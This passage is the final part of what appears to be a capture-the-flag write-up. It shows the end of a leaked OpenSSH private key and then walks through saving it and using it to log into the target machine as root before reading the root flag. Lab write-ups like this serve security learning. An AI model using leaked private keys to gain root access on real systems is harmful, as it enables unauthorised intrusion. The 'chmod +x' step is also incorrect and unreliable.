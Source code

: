 gtfeE73oFRdMV2SDKmup17VzbE47x50m0ykT09KOdAbwxBK7W3A99JDckPBlqXe0x6TG65
UotCk9hWibrl2nXTufZ1F3XGQu1LlQuj8SHyijdzutNQkEteKo374/AB1t2XZIENWzUZNx
vP8QwKQche2EN1GQQS6mGWTxN5YTGXjp9jFOc0EvAgwXczKxJ1AAAAwQD7/hrQJpgftkVP
/K8GeKcY4gUcfoNAPe4ybg5EHYIF8vlSSm7qy/MtZTh2Iowkt3LDUkVXcEdbKm/bpyZWre
0P6Fri6CWoBXmOKgejBdptb+Ue+Mznu8DgPDWFXXVkgZOCk/1pfAKBxEH4+sOYOr8o9SnI
nSXtKgYHFyGzCl20nAyfiYokTwX3AYDEo0wLrVPAeO59nQSroH1WzvFvhhabs0JkqsjGLf
kMV0RRqCVfcmReEI8S47F/JBg/eOTsWfUAAADBAPmScFCNisrgb1dvow0vdWKavtHyvoHz
bzXsCCCHB9Y+33yrL4fsaBfLHoexvdPX0Ssl/uFCilc1zEvk30EeC1yoG3H0Nsu+R57BBI
o85/zCvGKm/BYjoldz23CSOFrssSlEZUppA6JJkEovEaR3LW7b1pBIMu52f+64cUNgSWtH
kXQKJhgScWFD3dnPx6cJRLChJayc0FHz02KYGRP3KQIedpOJDAFF096MXhBT7W9ZO8Pen/
MBhgprGCU3dhhJMQAAAAxyb290QGNvZGV0d28BAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
</code></pre>

Save the key into a file in our attack machine, and give it the right permissions to make access through SSH

```bash
nano id_rsa
chmod +x id_rsa
```

Using this private key, we can make access as root user into target machine.

```bash
ssh -i id_rsa root@10.10.11.82
```

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>



### Root flag

```bash
cat root.txt
```

